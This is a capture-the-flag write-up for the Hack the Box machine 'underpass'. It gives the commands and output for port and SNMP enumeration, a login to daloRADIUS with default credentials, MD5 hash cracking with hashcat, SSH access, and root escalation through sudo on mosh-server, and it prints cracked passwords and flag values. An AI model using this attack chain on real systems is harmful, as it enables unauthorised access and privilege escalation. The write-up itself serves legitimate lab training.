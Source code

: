 # Hack the Box - "underpass" - 10.10.11.48
# Enumeration
## Nmap
### Inital Scan
Command
```
nmap -A -vv -oA enum/nmap-initial 10.10.11.48
```

Output
```
PORT   STATE SERVICE REASON         VERSION                                        
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)                                                               
| ssh-hostkey:                                                                     
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=                          
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))                 
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### Full Scan
Command
```
nmap -A -vv -p- -oA enum/nmap-full 10.10.11.48
```

Output
```
PORT   STATE SERVICE REASON         VERSION                                        
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)                                                               
| ssh-hostkey:                                                                     
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=                          
|   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)                  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))                 
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### UDP Scan
Command
```
nmap -sU -vv 10.10.11.48
```

Output
```
PORT     STATE         SERVICE REASON
161/udp  open          snmp    udp-response ttl 63
1812/udp open|filtered radius  no-response
1813/udp open|filtered radacct no-response
```
## Port 80
### Nikto
Command
```
nikto -h http://10.10.11.48 -o enum/nikto.txt
```

Output
```
+ Server: Apache/2.4.52 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 29af, size: 620c8638b9276, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.52 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ 8074 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-01-27 18:49:55 (GMT-6) (374 seconds)
```

### SNMP(UDP Port 161)

Ran SNMP check
```
snmp-check 10.10.11.48
```

Response
```
Host IP address               : 10.10.11.48
Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
Contact                       : steve@underpass.htb
Location                      : Nevada, U.S.A. but not Vegas
Uptime snmp                   : 02:43:23.33
Uptime system                 : 02:43:13.79
System date                   : 2025-1-28 02:15:58.0
```


---

# User Access

snmpwalk mentions that this device is a dealoradius server and also gives us a user on the device "steve".

After finding the Daloradius Github page and the installation Wiki on that page we can find directories for a management application that are created and used.
>![[Pasted image 20250128162004.png]]

Further down we can see a username and password that is default for the management application.
`administrator:radius`
>![[Pasted image 20250128162209.png]]

This allows us to login to the Management Console for Daloradius.
>![[Pasted image 20250128162314.png]]

Going into the users there is 1 user listed with an MD5 encoded password.
`svcMosh:412DD4759978ACFCC81DEAB01B382403`
>![[Pasted image 20250128163420.png]]

Running the MD5 hash through hashcat gives the password for svcMosh.
```
hashcat -m 0 -a 0 pass.hash /usr/share/wordlists/rockyou.txt
```
`svcMosh:underwaterfriends`

Using this username and password we can access the SSH service and grab the user flag.

---

# Privilege Escalation

After running LinPeas we can see that we have write permissions to /etc/init.d/moshserver.
>![[Pasted image 20250128183416.png]]

We also have have NOPASSWD sudo access to /usr/bin/mosh-server.
>![[Pasted image 20250128184108.png]]

We start a mosh server using the sudo command.
```
sudo mosh-server
```
>![[Pasted image 20250128185623.png]]

Using the key and port generated we can connect to this service to pop a root shell and get the root flag.
```
MOSH_KEY=YB3xXazebjeDp+xPhHZ0Ng mosh-client 127.0.0.1 60001
```
>![[Pasted image 20250128185810.png]]

---

# Loot
## User
Command
```
ifconfig;id;hostname;cat user.txt
```
`01c4852c1e08a4c79c5fe07963aea244`
>![[Pasted image 20250128164037.png]]

## Root/Admin
Command
```
ifconfig;id;hostname;cat root.txt
```
`8e107a9ea691602798c4b43947e120aa`
>![[Pasted image 20250128185922.png]]